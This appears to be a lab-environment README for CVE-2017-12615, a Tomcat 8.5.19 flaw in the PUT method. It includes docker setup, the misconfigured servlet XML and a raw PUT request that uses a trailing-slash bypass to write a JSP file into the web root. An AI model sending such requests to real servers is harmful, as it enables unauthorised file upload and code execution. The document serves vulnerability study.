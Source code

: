 # Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)
[中文版本(Chinese version)](README.zh-cn.md)   

Tomcat version: 8.5.19 

## Environment Setup
```
docker-compose build
docker-compose up -d
```
After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.


## Rationale
Reference links:
- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

Tomcat sets up the write permission（readonly=false）, which leads to the result that we can write files into the server.
```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using `/` in Linux).

## POC
Send the following packets directly and then the shell will be written into the Web root directory.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

As follows:

![](01.png)

